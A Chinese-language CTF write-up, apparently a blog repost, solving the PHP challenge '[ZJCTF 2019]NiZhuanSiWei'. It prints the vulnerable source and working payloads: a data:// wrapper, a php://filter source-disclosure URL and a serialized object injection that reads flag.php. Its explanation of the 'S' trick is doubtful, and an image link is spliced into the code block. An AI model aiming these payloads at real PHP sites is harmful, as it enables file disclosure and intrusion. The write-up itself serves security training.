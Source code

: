 # 原创
：  [ZJCTF 2019]NiZhuanSiWei

# [ZJCTF 2019]NiZhuanSiWei

#### [ZJCTF 2019]NiZhuanSiWei

## 考点

> 
PHP反序列化


## 思路

> 
分析一下题目给的源码<br/> 看源码发现共有三个参数，依次判断<br/> text的内容为welcome to the zjctf，我们可以用data协议<br/> `text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=`<br/> file利用正则过滤了flag字符，根据注释，我们需要先读取useless.php中的内容看看<br/> `file=php://filter/read=convert.base64-encode/resource=useless.php`<br/> useless.php告诉我们password参数需要传一个序列化后的内容进去，这里我们可以将s改成S来绕过__tostring()函数<br/> O:4:“Flag”:1:{S:4:“file”;s:8:“flag.php”;}


```
&lt;?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&amp;&amp;(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "&lt;br&gt;&lt;h1&gt;".file_get_contents($text,'r')."&lt;/h1&gt;&lt;/br&gt;";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?&gt;

// useless.php
&lt;?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210513221957532.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

        if(isset($this-&gt;file)){  
            echo file_get_contents($this-&gt;file); 
            echo "&lt;br&gt;";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?&gt;

```

## Payload

```
&lt;?php
class Flag{
	public $file = 'flag.php';

}
echo serialize(new Flag);
?&gt;

O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

```

payload：`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&amp;file=useless.php&amp;password=O:4:"Flag":1:{S:4:"file";s:8:"flag.php";}`

> 
查看网页源码就能发现flag<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210513222009487.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

